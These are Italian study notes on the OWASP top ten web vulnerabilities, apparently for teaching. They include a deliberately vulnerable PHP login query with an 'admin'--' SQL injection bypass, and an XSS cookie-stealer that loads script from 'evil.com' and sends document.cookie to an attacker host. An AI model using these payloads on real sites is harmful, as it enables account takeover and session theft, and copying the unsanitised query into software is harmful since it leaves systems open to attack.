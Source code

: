 Gli accorgimenti di sicurezza non si devono peró fermare al livello applicativo, ma devono coprire anche le azioni dell'utente.

Per valutare queste problematiche utilizziamo la classifica **OWASP**(classifica dei problemi di sicurezza piú gravi).
## 1. Injection
Invio di codice arbitrario all'applicazione, che viene eseguito lato server.

Alcuni esempi tra i piú noti sono l'sql injection e il buffer overflow.

É possibile peró evitare attacchi di questo tipo "sanificando" l'input dell'utente.
### Esempio: SQL-injection, authentication bypass
Immaginiamo di avere su una pagina web PHP un form di login, richiedente username e password per l'accesso ad una dashboard. La pagina effettua una richiesta al database relazionale direttamete o si interfaccia con un controller per chiedere se i dati inseriti sono corretti.

Immaginiamo che la query sia 
```php
$username = $_POST['user'];
$password = $_POST['password'];
$query -> "select * from users where username='$username' and password='$password'";
```
notiamo che non viene fatta alcun controllo sull input, quindi un'attaccante é in grado di bypassare l'autenticazione con una semplice richiesta web con payload
```
user=admin'--
```
> Si suppone che esista l'utente admin e che la logica del codice PHP restante implementi il login.
## 2. XSS - Cross site scripting
É una vulnerabilitá che permette a un attaccante di manipolare un sito vulnerabile per far eseguire del codice Javascript malevolo ad un utente.

Uno script può essere eseguito sul Browser della vittima, facendo in modo che i parametri del Browser relativi al sito target (in particolare I cookies) vengano intercettati.

Si dividono in due categorie: 
- **reflected XSS**: quello sopra descritto
- **stored XSS**: quando un'applicazione riceve un'input malevolo e lo include nelle risposte HTTP future in una maniera non sicura[1](https://portswigger.net/web-security/cross-site-scripting/stored)
### Esempio: Reflected XSS - Cookie stealer con phising
Immaginiamo che un sito abbia una form per i contatti, dove é possibile inserire il link al proprio sito.

La richiesta di contatto viene renderizzata dal browser sul pannello amministratore in un tag HTML *p* senza essere sanitizzato, come segue
```html
<!-- site=http://input-site.com -->
<p>Site: http://input-site.com</p>
```
Un attaccante puó quindi inserire codice javascript che viene eseguito dal browser.
```html
<!-- site=<script>alert(1)</script> -->
<p><script>alert(1)</script></p>
```
Si puó inoltre allegare una richiesta a un file js di nostro possesso, mettere in ascolto una reverse-shell e far effettuare la richiesta dal browser dell'attaccante(anche se finiremo nella sandbox del browser) oppure rubare il cookie dell'utente che visualizzerá la pagina:
```html
<p><script src="http://evil.com/pwn.js"></script></p>
```
```js
//pwn.js
var i=new Image();
i.src="http://evil-ip:/?"+document.cookie;
```
mettendo in ascolto un server HTTP per ricevere la richiesta.
## 3. Broken Authentication & session management
**Broken autentication**: l’autenticazione utente viene resa vana, ovvero un utente non autorizzato riesce ad autenticarsi.
**Broken Session management**: un utente non autorizzato riesce ad inserirsi all’interno di una sessione di un utente autorizzato.
## 4. Insecure direct object references(IDOR)
Un tipo di vulnerabilitá sul controllo degli accessi che sorge quando un'applicazione usa un'input utent per accedere agli oggetti direttamente.

Per esempio la pagina del proprio profilo utente, visualizzabile dopo l'autenticazione
``` https://insecure-website.com/customer_account?customer_number=132355``` 
effettua un riferimento diretto al database di backend, e questo rende accessibili i profili di altri utenti semplicemente modificando i valore del campo `customed_id`.
## 5. Cross site request forgery
É una vulnerabilitá che permette ad un attaccante di indurre azioni ad un utente che non aveva intenzione di compiere.

Un sito permette operazioni critiche agli utenti autorizzati previa autenticazione, durante la stessa sessione.
Lo stesso utente autorizzato apre una pagina fraudolenta in un’altra scheda, che lo porta ad richiedere una diversa operazione, all’interno della sessione autenticata:

Permette di bypassare la same-origin policy, che evita che piú pagine interferiscano tra di esse, per esempio sfruttando iframe collegati a siti malevoli.
## 6. Security Misconfiguration
Ad esempio:
1. Il framework di sviluppo non è aggiornato
2. Installo un pacchetto lato server ma non cambio gli utenti di default (es. user admin, password admin)
3. Directory listing in Apache
### Esempio: CSM con credenziali di default
Un sito gestito tramite CMS(_Content Management_ System), come ad esempio wordpress o drupal, presenta le credenziali di default o un file di configurazione con le credenziali in chiaro
## 7. Insecure cryptographic storage
Ad esempio:
- Dati riservati sono memorizzati in chiaro, oppure la chiave è memorizzata in chiaro, sul server o sui backup
- Password e chiavi crittografiche deboli rispetto a guessing e cracking
- Password “unsalted”
## 8. Failure to restrict URL access
Un utente é in grado di raggiungere pagine di un sito che richiederebbero autenticazione senza autenticarsi.
## 9. Insufficient transport layer protection
- SSL solo su alcune delle pagine o componenti riservate.
- Certificati scaduti o con CA non riconosciute.
- In generale, possibilità di intercettare il traffico (es. Arp / DNS spoofing)
## 10. Unvalidated redirects and forwards
L’utente prevede delle pagine che ridirezionano l’utente verso una URL ottenuta a partire da un parametro – l’utente può cliccare su un link che lo porta al sito, ma poi lo ridireziona su un sito pericoloso.

Stessa cosa per i forward interni
## Altre vulnerabilitá
- **DOS** (OWASP top ten – entry A9 – nel 2004), es.:
	- syn flooding
	- “smurf”
- **Insufficient Anti-automation**, es.: 
	- biometrics
	- captcha
- **Phishing**
- Metodi di **autenticazione** per online banking
	es.:
	- one time passwords
	- password dispositive
	- SSL client authentication
	- autenticazione con firma elettronica
## Metologia OWASP
La top ten di OWASP viene sviluppata basandosi su questa tabella:
![[Pasted image 20230904220337.png]]

Chiaramente non è possibile trovare un threat agent né un business impact poiché sono dipendenti dalla situazione in cui ci troviamo. 

Tutte le altre variabili sono invece definite solamente dal tipo di vulnerabilità: 
- **Attack vectors**: **quanto** è **facile** **effettuare** un attacco sfruttando quella vulnerabilità. 
- **Weakness prevalence**: **quanto** è **diffusa** la vulnerabilità. 
- **Weakness detectability**: **quando** è **facile** **scoprire** la vulnerabilità. 
- **Tech impact**: **quali** sono gli **impatti tecnologici** a fronte di un attacco sfruttando quella vulnerabilità.